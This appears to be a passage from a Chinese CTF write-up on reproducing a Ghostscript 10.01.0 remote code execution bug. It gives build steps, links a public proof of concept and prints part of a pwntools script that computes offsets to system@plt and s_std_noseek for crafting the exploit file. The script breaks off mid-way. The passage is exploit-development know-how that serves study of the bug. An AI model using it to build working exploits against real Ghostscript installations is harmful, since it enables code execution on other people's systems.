 注：由于不能从 `s_xBCPE_process` 函数的转义列表中写入字符（至少在这个 POC 中不能），因此我们可能需要重新启动该漏洞攻击几次，才能获得没有这些字节的堆地址。

## 漏洞复现

rwctf 提供了漏洞压缩包

```bash
tar xzvf ghostscript-10.01.0.tar.gz 
cd ./ghostscript-10.01.0 
./configure 
make
make install
```

按照以上顺序执行命令即可

文件在./bin/目录下

在 github 上找到 poc

[https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript\_rce](https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript_rce)

利用 getoffset.py 生成 poc 文件

```bash
#!/usr/bin/env python

# python offset.py /path/to/gs/binary

# or

# python offset.py /path/to/libgs

# thanks to Laluka for the help

from pwn import *
from sys import argv

if len(argv) != 2:
    print("Usage: python {argv[0]} /path/to/gs_bin or libgs")
    exit(1)


elf_path = argv[1]

# Load the ELF file

elf = ELF(elf_path)

# Get the address of the PLT

init_addr = elf.get_section_by_name('.init').header.sh_addr
print(".init start address: 0x{:x}".format(init_addr))

# Get the address of system@plt

system_plt_addr = elf.plt['system']
print("system@PLT address: 0x{:x}".format(system_plt_addr))
libc_plt_offset = system_plt_addr - init_addr
print("Offset from .init start addr to system@plt: 0x{:x} == {:d}".format(libc_plt_offset, libc_plt_offset))

f_addr_s_std_noseek = elf.functions["s_std_noseek"]
print("f_addr_s_std_noseek address: 0x{:x}".format(f_addr_s_std_noseek.address))
f_addr_s_std_noseek_offset = f_addr_s_std_noseek.address - init_addr
```